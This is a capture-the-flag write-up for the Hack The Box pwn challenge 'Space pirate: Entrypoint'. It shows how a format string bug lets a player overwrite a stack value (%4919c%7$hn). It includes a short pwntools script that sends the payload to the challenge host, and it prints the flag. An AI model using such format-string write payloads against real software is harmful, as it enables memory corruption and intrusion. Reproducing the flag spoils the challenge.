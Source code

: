 # Space pirate: Entrypoint
> Write-up author: jon-brandy
## DESCRIPTION:
D12 is one of Golden Fang's missile launcher spaceships. 
Our mission as space pirates is to highjack D12, get inside the control panel room, and access the missile launcher system. 
To achieve our goal, we split the mission into three parts. In this part, all we need to do is bypass the scanning system and open the gates so that we proceed further.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given, then jump to the extracted directory.

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/209463673-48df0692-e65e-4194-9ae2-be80e6856bad.png)


2. Check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463681-989c4cff-3dce-494f-8d61-6c1af86af3b0.png)


3. Check the binary's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463703-79b1a4cc-5ea0-4fc3-843a-43fa24c83d93.png)


4. All protection's enabled.
5. Hmmm.. Let's run the file in gdb.

![image](https://user-images.githubusercontent.com/70703371/209463724-cccbe67c-76a5-4079-a654-ab8fbd6c2f50.png)


![image](https://user-images.githubusercontent.com/70703371/209463733-669e653f-1a16-486d-aea7-6c75b5fda4d0.png)


![image](https://user-images.githubusercontent.com/70703371/209463740-66d11232-6398-4630-97fb-694386ace618.png)


6. Let's decompile the binary using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463764-7578b83f-2012-4a18-a860-9cd436c81d04.png)


7. It looks like we can utilize format string vulnerability here.

![image](https://user-images.githubusercontent.com/70703371/209463825-73020a6a-1121-4f06-b952-89b128fd1c18.png)


8. If the `local_48` value is eq to **0xdead1337**, then the program will execute the `open_door()` function.

![image](https://user-images.githubusercontent.com/70703371/209464871-10f1ddb4-a41c-4c9e-a2fb-739ecd578909.png)


> OPEN_DOOR -> a function that will give us the flag

![image](https://user-images.githubusercontent.com/70703371/209464882-b49cc0c9-9fe2-4d8d-bc05-2990568f0c99.png)


9. However, the `local_48` value is **0xdeadbeef** not **0xdead1337**.
10. Remember that the `local_40` saves the address of `local_48`.

![image](https://user-images.githubusercontent.com/70703371/209464944-a52ddd88-f28b-4a61-9b7e-44168631a5b6.png)


11. Hence, we can utilize format string vuln to overwrite the first 2 bytes of `local_48` value.
12. Now run, the binary, choose option 1, then input 8 %p.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209465122-13eeff3b-e788-42f4-b77f-918d3e41b354.png)


13. Based from the output, we know that **0xdeadbeef** is at offset 6 and **0xdead1337** is at offset 7. 
14. Get the decimals value of **0x1337** -> `4919`
15. Means the input shall look like this -> `%4919c%7$hn`
16. To get the flag, actually u don't need to make the script, but i just want to make it 😁

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('142.93.37.215', 30803)
sh.recvuntil("> ")
sh.sendline(b'1')
sh.recvuntil(": ")
A = b'%4919c%7$hn'
sh.sendline(A)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209465379-85f5adb9-1aa3-4ccd-9e8d-1163907fe90f.png)


17. Got the flag!

## FLAG

```
HTB{g4t3_0n3_d4rkn3e55_th3_w0rld_0f_p1r4t35}
```

